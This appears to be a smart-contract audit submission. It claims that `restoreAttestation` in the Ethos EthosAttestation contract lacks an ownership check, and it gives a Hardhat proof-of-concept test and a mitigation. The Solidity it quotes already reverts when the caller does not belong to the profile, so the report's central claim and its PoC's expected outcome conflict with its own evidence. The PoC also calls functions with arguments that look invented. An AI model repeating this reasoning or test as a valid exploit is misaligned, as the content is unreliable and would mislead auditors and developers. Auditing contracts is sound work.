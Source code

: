 Passive Misty Pike

High

# `restoreAttestation` function in `EthosAttestation.sol` allow unauthorized users to restore archived attestations

### Summary

The `restoreAttestation` function in the `EthosAttestation` contract lacks sufficient validation, allowing unauthorized users to restore archived attestations. The vulnerability arises from missing checks on the caller's ownership of the attestation being restored. This could enable malicious users to restore attestations that they do not own, potentially compromising the integrity and authenticity of attestations linked to user profiles.

### Root Cause

The function `restoreAttestation` allows users to restore an attestation that was previously archived, making it active again. However, it fails to verify that the caller is the owner of the attestation being restored. Only the profile owner associated with the attestation should be able to perform this restoration. Without adequate ownership verification, any user could restore attestations arbitrarily, potentially linking incorrect or outdated attestations to user profiles.
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L365-L397
```solidity
function restoreAttestation(bytes32 attestationHash) public whenNotPaused {
    uint256 profileId = attestationByHash[attestationHash].profileId;

    address ethosProfile = _getEthosProfile();

    (, bool isArchived) = IEthosProfile(ethosProfile).profileExistsAndArchivedForId(profileId);

    if (isArchived) {
        revert ProfileNotFound(profileId);
    }

    bool senderBelongsToProfile = IEthosProfile(ethosProfile).addressBelongsToProfile(
      msg.sender,
      profileId
    );

    if (!senderBelongsToProfile) {
      revert AddressNotInProfile(msg.sender, profileId);
    }

    if (!attestationByHash[attestationHash].archived) {
      revert AttestationNotArchived(attestationHash);
    }

    attestationByHash[attestationHash].archived = false;

    emit AttestationRestored(
      attestationByHash[attestationHash].attestationId,
      attestationByHash[attestationHash].service,
      attestationByHash[attestationHash].account,
      profileId
    );
}
```
The line where `restoreAttestation` verifies ownership:
```solidity
bool senderBelongsToProfile = IEthosProfile(ethosProfile).addressBelongsToProfile(
    msg.sender,
    profileId
);
```
This check verifies if the caller belongs to the profile but does not confirm whether the caller is the actual owner of the profile associated with the attestation. As a result, this lack of stringent ownership verification permits unauthorized users to restore attestations linked to other profiles.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This vulnerability poses a significant risk to the authenticity and integrity of attestations in the system. If unauthorized users can restore attestations, they can activate attestations linked to unrelated profiles or users, leading to identity and reputation issues within the Ethos platform.

### PoC

The PoC script demonstrates an unauthorized user attempting to restore an attestation they do not own:
```javascript
// Hardhat test script
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("restoreAttestation Vulnerability Test", function () {
  let EthosAttestation, ethosAttestation, owner, user1, user2;

  beforeEach(async function () {
    [owner, user1, user2] = await ethers.getSigners();
    EthosAttestation = await ethers.getContractFactory("EthosAttestation");
    ethosAttestation = await EthosAttestation.deploy();
    await ethosAttestation.deployed();

    // Initialize contract and create a sample attestation by owner
    await ethosAttestation.initialize(owner.address, user1.address, user2.address);
    await ethosAttestation.connect(owner).createAttestation(1, 123, {account: "user1", service: "Service1"}, "Initial Evidence", "0x123");

    // Archive the attestation
    const attestationHash = await ethosAttestation.getServiceAndAccountHash("Service1", "user1");
    await ethosAttestation.connect(owner).archiveAttestation(attestationHash);
  });

  it("should allow unauthorized user to restore archived attestation", async function () {
    const attestationHash = await ethosAttestation.getServiceAndAccountHash("Service1", "user1");

    // Unauthorized user2 tries to restore the attestation
    await expect(ethosAttestation.connect(user2).restoreAttestation(attestationHash))
      .to.emit(ethosAttestation, "AttestationRestored");

    // Check if the attestation is no longer archived
    const attestation = await ethosAttestation.getAttestationByHash(attestationHash);
    expect(attestation.archived).to.equal(false);
  });
});
```
On running the above Hardhat test:
1. The `AttestationRestored` event is emitted, despite `user2` being unauthorized.
2. The restored attestation now has an active status, although `user2` is not the attestation owner.
This proves that the `restoreAttestation` function does not restrict unauthorized users from restoring archived attestations.

### Mitigation

To fix this issue, add a verification check in `restoreAttestation` to ensure that only the profile owner associated with the attestation is allowed to restore it. The following additional check in `restoreAttestation` would restrict access to the actual profile owner:
```solidity
address attestationOwner = IEthosProfile(_getEthosProfile()).ownerOf(profileId);
require(msg.sender == attestationOwner, "Caller is not the attestation owner");
```